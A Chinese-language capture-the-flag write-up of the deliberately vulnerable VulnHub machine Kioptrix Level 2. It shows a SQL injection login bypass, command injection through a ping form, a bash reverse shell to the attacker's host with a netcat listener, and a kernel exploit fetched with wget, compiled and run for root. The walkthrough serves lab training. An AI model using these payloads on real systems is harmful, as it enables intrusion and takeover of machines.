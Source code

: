 ```yaml
---
title: KIOPTRIX:LEVEL2
author: hgbe02
date: 2024-01-26
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Kioptrix-level2.html"
---
```


# KIOPTRIX:LEVEL2

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632087.png" alt="image-20240126104304145" style="zoom:50%;" />

老样子，对`.vmx`进行改造，然后扫描：

![image-20240126114005266](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632089.png)

## 踩点一下

打开看看对不对：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632090.png" alt="image-20240126114350440" style="zoom:50%;" />

尝试万能密码，`username`填入`admin' or '1' = '1`，进入了。好家伙直接免去了我最糟心的sql注入环节：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632091.png" alt="image-20240126115844210" style="zoom:67%;" />

然后随便ping一下，看看能不能执行命令`127.0.0.1 && whoami`，输出：

```text
127.0.0.1 && whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.264 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.032/0.110/0.264/0.108 ms, pipe 2
apache
```

使用插件看一下相关配置信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632092.png" alt="image-20240126122344403" style="zoom: 50%;" />

## 端口扫描

```sh
sudo nmap -sS -T5 -A -p- 192.168.244.138
/*
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-25 23:07 EST
Nmap scan report for 192.168.244.138
Host is up (0.00067s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1009/udp   status
|_  100024  1           1012/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_ssl-date: 2024-01-26T01:58:17+00:00; -2h09m35s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
1012/tcp open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:12:F4:09 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -2h09m35s

TRACEROUTE
HOP RTT     ADDRESS
1   0.67 ms 192.168.244.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.59 seconds
*/
```

可以看到，开放了`22,80,111,443,631,1012,3306`这几个端口。

## 方法一：kali监听，反弹shell

```shell
127.0.0.1&&bash -i >& /dev/tcp/192.168.244.133/3380 0>&1
# bash -i >& /dev/tcp/192.168.244.133/3380 0>&1：这是一个反向 shell 命令的核心部分。
# bash -i：这会启动一个交互式的 bash shell。
# >& /dev/tcp/192.168.244.133/3380：这会将 bash shell 的输出重定向到 IP 地址 192.168.244.133 的 3380 端口。这意味着在 192.168.244.133 上监听 3380 端口的任何人都可以看到 bash shell 的输出。
# 0>&1：这会将 bash shell 的输入重定向到其输出，这意味着在 192.168.244.133 上监听 3380 端口的任何人都可以向 bash shell 发送命令。
```

本地开启一下监听：

```shell
nc -lvvp 3380
# nc：这是 netcat 的简写，是一个强大的网络工具，可以用于读取和写入网络连接。
# -l：这个参数让 netcat 进入监听模式，等待接入的连接。
# -v：这个参数让 netcat 在操作过程中提供更多的信息，也就是说它会显示更详细的输出。当你使用两个 -v 参数（即 -vv）时，netcat 会提供更详细的信息。
# -p 3380：这个参数指定 netcat 应该监听的端口号，这里是 3380。
```

进去了，拿到了一个普通用户权限：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632093.png" alt="image-20240126122158468" style="zoom:50%;" />

## 尝试提权

先寻找一下Apache相关漏洞查看是否有可以实现的：

![image-20240126122906650](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632094.png)

不对，我都反向连接shell了，我还要这个干啥。。。

尝试`SUID`提权：

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvvp 3380
listening on [any] 3380 ...
192.168.244.138: inverse host lookup failed: Unknown host
connect to [192.168.244.133] from (UNKNOWN) [192.168.244.138] 32771
bash: no job control in this shell
bash-3.00$ find / -perm -4000 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su
```

没有我们想要的文件。。。

尝试内核提权：

```shell
uname -a 	   #打印系统信息
lsb_release -a #查看系统版本
```

![image-20240126123958819](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632095.png)

可以看到 CentOS 版本为4.5，查找相关漏洞：

![image-20240126124416353](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632096.png)

第二个符合我们的系统，尝试下载下来利用一下：

```shell
searchsploit -m PATH
```

然后开启python的简单http服务：

```shell
python3 -m http.server 1234
```

然后在反弹shell中进行下载：

```shell
cd /tmp  								 # 防止没有读写权限
wget http://192.168.244.133:1234/9542.c  # 远程下载payload
gcc 9542.c  							 # 编译一下，这里有报错但是不影响
./a.out 								 # exploit
```

![image-20240126130302284](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632097.png)

如图已经拿到了root，打靶结束。